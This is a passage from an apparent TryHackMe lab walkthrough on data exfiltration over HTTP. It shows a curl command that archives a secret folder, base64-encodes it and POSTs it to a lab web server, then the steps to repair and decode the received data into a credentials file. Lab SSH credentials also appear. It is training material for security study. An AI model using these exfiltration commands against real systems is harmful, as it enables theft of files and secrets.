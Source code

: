 - **Sending POST data via CURL**

```shell
thm@victim1:~$ curl --data "file=$(tar zcf - task6 | base64)" http://web.thm.com/contact.php
```

We used the curl command with --data argument to send a POST request via the file parameter. Note that we created an archived file of the secret folder using the tar command. We also converted the output of the tar command into base64 representation.

Next, from the **victim1 or JumpBox** machine, let's log in to the webserver, web.thm.com, and check the /tmp directory if we have successfully transferred the required data. Use the  following SSH credentials in order to login into the web: thm:tryhackme.

- **Checking the received data**

```shell
thm@victim1:~$ ssh thm@web.thm.com 
thm@web:~$ ls -l /tmp/
total 4
-rw-r--r-- 1 www-data www-data 247 Apr 12 16:03 http.bs64
thm@web:~$ cat /tmp/http.bs64
H4sIAAAAAAAAA 3ROw7CMBBFUddZhVcA/sYSHUuJSAoKMLKNYPkkgSriU1kIcU/hGcsuZvTysEtD<
WYua1Ch4P9fRss69dsZ4E6wNTiitlTdC qpTPZxz6ZKUIsVY3v379P6j8j3/8ejzqlyrrDgF3Dr3
On/XLvI3QVshVY1hlv48/64/7I bU5fzJaa 2c5XbazzbTOtvCkxpubbUwIAAAAAAAAAAAAAAAB4
5gZKZxgrACgAAA==
```

Nice! We have received the data, but if you look closely at the http.bs64 file, you can see it is broken base64. This happens due to the URL encoding over the HTTP. The + symbol has been replaced with empty spaces, so let's fix it using the sed command as follows,

- **Fixing the http.bs64 file!**

```shell
thm@web:~$ sudo sed -i 's/ /+/g' /tmp/http.bs64
```

Using the sed command, we replaced the spaces with + characters to make it a valid base64 string!

- **Restoring the Data**

```shell
thm@web:~$ cat /tmp/http.bs64 | base64 -d | tar xvfz -
tmp/task6/
tmp/task6/creds.txt
```

Finally, we decoded the base64 string using the base64 command with -d argument, then we passed the decoded file and unarchived it using the tar command.

### HTTPS Communications

In the previous section, we showed how to perform Data Exfiltration over the HTTP protocol which means all transmitted data is in cleartext. One of the  benefits of HTTPS is encrypting the transmitted data using SSL keys  stored on a server.

If you apply the same technique we showed previously on a web server with  SSL enabled, then we can see that all transmitted data will be  encrypted. We have set up our private HTTPS server to show what the  transmitted data looks like. If you are interested in setting up your  own HTTPS server, we suggest visiting the [Digital Ocean website](https://www.digitalocean.com/community/tutorials/how-to-create-a-self-signed-ssl-certificate-for-apache-in-ubuntu-18-04).
